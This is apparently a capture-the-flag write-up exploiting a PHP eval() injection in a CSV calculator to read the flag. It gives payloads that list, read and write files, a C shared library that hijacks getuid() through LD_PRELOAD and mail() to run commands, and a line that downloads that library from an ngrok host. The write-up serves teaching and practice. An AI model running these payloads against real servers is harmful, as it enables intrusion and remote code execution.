






# C'mon See My Vulns

## Problem

Government of Rhiza has been creating some tools to make the slave labor more efficient. Laura scanned all IPs addresses from Rhiza's ASN and found one of these tools. Your goal is to get into the server to be able to collect the IP addresses that connects to it. Once collected, we can find out the approximate location of these machines.


C'mon See My Vulns


## Solution

We are given the following source code:

```php
<?php

function do_calcs($csv){
  preg_match_all("/{{([^}]*)}}/", $csv, $matches);

  foreach ($matches[1] as &$val){
    $csv = str_replace("{{" . $val . "}}", eval("return " . $val . ";"), $csv);
  }

  return $csv;
}

/* main */
if ($_SERVER['REQUEST_METHOD'] == "POST"){
  if (isset($_POST['csv'])){
    // do the math calculations
    $csv = trim(do_calcs($_POST['csv']));
    $csv = str_replace("\r\n", "\n", $csv); // replace CRLF to LF

    $result = csv_parse($csv);
    print_r($result);
  }
  else{
    die("Missing param csv");
  }
}

?>
```

The `eval()` function being used on unsanitised user input. This should already ring some alarm bells.

```php
foreach ($matches[1] as &$val){
    $csv = str_replace("{{" . $val . "}}", eval("return " . $val . ";"), $csv);
  }
```

There is also an `info.php` page. We can take a look at the `disable_functions` configuration to see which functions are disabled. Functions that can execute OS commands, like `exec`, `system`, etc. are not allowed.



The `open_basedir` setting restricts which files PHP can read/write to. We can see that we are restricted to `/var/www/html`.



Now that we know which functions are **not** allowed, let's look at what we **are** allowed to do. For the purposes of testing our POST requests, I used an API client called [Postman](https://www.postman.com).

List files:

```
csv:price,tax↵200,{{implode('', scandir('.'))}}
```

Read arbitrary files:

```
csv:price,tax↵200,{{file_get_contents('index.php')}}
```

Write arbitrary files:

```
csv:price,tax↵200,{{file_put_contents('test', 'test')}}
```

Of course, the files we can work with will be restricted by the `open_basedir` setting. Yet, we know that the flag is in `/root`.

However, from the docker file, we know that there is a `readflag` binary. This will allow us to get the flag contents.

```
# Setup readflag binary
COPY ./readflag.c readflag.c
RUN gcc readflag.c -o readflag && chmod 4777 readflag && rm readflag.c
```

We could bypass the restrictions using a custom `.so` file, and changing the `LD_PRELOAD` environment variable. This only requires that we are able to upload arbitrary files, set environment variables, and call the `mail()` function.

Here's a reference: [https://www.programmersought.com/article/20535983859/](https://www.programmersought.com/article/20535983859/)

The basic theory is this:

1\. When we set the `LD_PRELOAD` environment variable to our custom `.so` file, our library takes precedence and gets loaded first, overriding the standard functions. 

2\. `mail()` runs `/usr/sbin/sendmail` through `/bin/sh`. When this happens, functions like `getuid()` are called. 

3\. If we override `getuid()`, we can execute arbitrary code.

Create a `hack.c` file as follows:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>


void payload() {
    system("touch /var/www/html/success");
}


uid_t getuid() {
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
```

Compile the shared library:

```
gcc -c -fPIC hack.c -o hack
gcc -shared hack -o hack.so
```

Open a Python HTTP server and create a `ngrok` tunnel to transfer the file.



Transfer the `hack.so` to a writeable directory with `file_put_contents` and `fopen`:

```
csv:price,tax↵200,{{file_put_contents('/var/www/html/hack.so', fopen('http://631b40831847.ngrok.io/hack.so', 'r'))}}
```

Use the `LD_PRELOAD` environment variable to force the loading of our custom `getuid()` function. Then, call `mail()` - this will run `/usr/sbin/sendmail` through `/bin/sh`, which calls the `getuid()` function. 

Note that all three have to be done in one request - the environment variable will only exist for the duration of the current request.

```
csv:price,tax↵200,{{putenv('LD_PRELOAD=/var/www/html/hack.so') . getenv('LD_PRELOAD') . mail('a','a','a','a')}}
```

From the Docker logs, we could see that `/bin/sh` was indeed executed.



Check that it worked:

```
csv:price,tax↵200,{{implode('', scandir('.'))}}
```

We see that the `success` file has been created, so our exploit was successful.



Now, it's time to modify the payload to achieve our goals. We will call the provided `readflag` binary, and store the results in `output.txt`.

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>


void payload() {
    system("/opt/readflag > /var/www/html/output.txt");
    return;
}

uid_t getuid() {
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
```

Now, after running the above steps again, we should have the flag in `output.txt`.

```
csv:price,tax↵200,{{file_get_contents('output.txt')}}
```

Using `file_get_contents`, we can get the output.


